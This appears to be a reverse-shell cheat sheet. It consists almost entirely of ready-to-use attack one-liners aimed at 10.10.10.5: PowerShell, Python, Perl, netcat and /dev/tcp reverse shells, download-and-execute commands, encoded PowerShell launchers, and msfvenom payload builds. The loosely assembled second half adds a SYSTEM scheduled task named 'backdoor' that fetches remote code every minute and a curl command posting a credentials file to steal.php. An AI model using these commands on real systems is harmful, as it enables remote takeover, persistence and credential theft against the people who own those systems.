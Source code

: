 

# Powershell: Reverse shell (TCP)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"

## Download and execute remote script
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/backdoor.ps1')"

## Encoded PowerShell launcher
powershell -EncodedCommand UwB0AGEAcgB0AC0AcwBoAGUAbABsACAAYwBvAG0AbQBhAG4AZAAgAGEAbABsAG8AdwBlAGQAIABiAHkAIAB0AGgAZQAgAHMAeQBzAHQAZQBtAA==


# Python: Reverse Shell

## Basic Linux reverse shell
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.10.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'


# Bash One-Liners
## Netcat reverse shell
nc -e /bin/bash 10.10.10.5 4444

## Bash TCP shell (no nc)
bash -i >& /dev/tcp/10.10.10.5/4444 0>&1

# MSFvenom Payloads

## Windows reverse TCP shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe > shell.exe

## Linux reverse shell (ELF)
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf > shell.elf











nc -e /bin/sh 10.10.10.5 4444

powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/a.ps1')"

bash -i >& /dev/tcp/10.10.10.5/443 0>&1

python -c 'import pty; pty.spawn("/bin/bash")'

curl -s http://10.10.10.5:8080 | bash

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe > met.exe

powershell -e aQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAY3QAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4ANQAvAGIAYQBjAGsAZABvAG8AcgAuAHAAcwAxACIAKQA=

perl -e 'use Socket;$i="10.10.10.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

wget http://10.10.10.5/evil.sh && chmod +x evil.sh && ./evil.sh

openssl s_client -connect 10.10.10.5:443

socat TCP4-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash

echo 'bash -i >& /dev/tcp/10.10.10.5/5555 0>&1' > /tmp/.x && chmod +x /tmp/.x && /tmp/.x

curl http://10.10.10.5/reverse | sed 's/^/>/g' >> ~/.bash_history

schtasks /create /tn "backdoor" /tr "powershell -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/r.ps1')" /sc minute /mo 1 /ru SYSTEM

echo aGVsbG8gd29ybGQ= | base64 -d

ftp 10.10.10.5

env x='(){:;};echo hacked' bash -c "echo this is a test"

curl -X POST -d @creds.txt http://10.10.10.5/steal.php

powershell -Command "$env:comspec"

whoami >> /dev/tcp/10.10.10.5/1337


python -c 'import pty; pty.spawn("/bin/bash")' ---- shell stabilizer

